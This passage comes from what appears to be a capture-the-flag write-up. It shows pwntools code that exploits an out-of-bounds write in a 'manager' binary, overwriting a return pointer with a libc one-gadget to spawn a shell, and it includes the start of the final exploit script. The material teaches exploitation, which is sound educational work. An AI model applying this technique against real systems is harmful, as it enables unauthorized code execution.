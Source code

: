 ```python
# Now overwrite the edit_emploiyee RP with a ret2libc gadget

# Set up all required addresses:
ret_addr = libc.address + 0xe6c84   # Gadget 3 will work 
log.info(f"{hex(ret_addr)=}")
# Break the ROP address into two 32 bit chunks
hours = ret_addr >> 32 # First part of addr - hours and rate are backward somehow in this phase
rate =  ret_addr & 0xffffffff # Last part of addr - it's backwards somehow as above
# Now set the offset from the stack data to the RP 
offset = -3 # This will point to edit_employee's RP

# Now trigger an edit_employee call to our return pointer address
p.recvuntil(":")        # Menu options
p.sendline("2")         # Select edit employee
p.recvline()            # Read up to enter employee index
p.sendline(str(offset)) # send the offset from stack data
p.recvuntil("rate: ")
p.sendline(str(rate))   # Send first part of address
p.recvuntil("worked: ")
p.sendline(str(hours))  # Send last part of address

p.interactive() # Profit!?
```

So here, we're calculating our return address and breaking it up into two parts 
for our write operation. Next we set up the offset from the stack data to 
overwrite RP, then finally, we execute and employee edit to our offset of -3, 
sending the rate and hours and the two parts of our return address. 

![Working Exploit](/assets/images/posts/pwn_manager/HTBBCTF13.png)

## The final code

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("manager")
libc = ELF("./libc-2.31.so")
# Don't forget to load our Libc version
env={"LD_PRELOAD":"./libc-2.31.so"}

context.clear(arch="amd64")
context.log_level="INFO"
DEBUG = False
REMOTE = False

```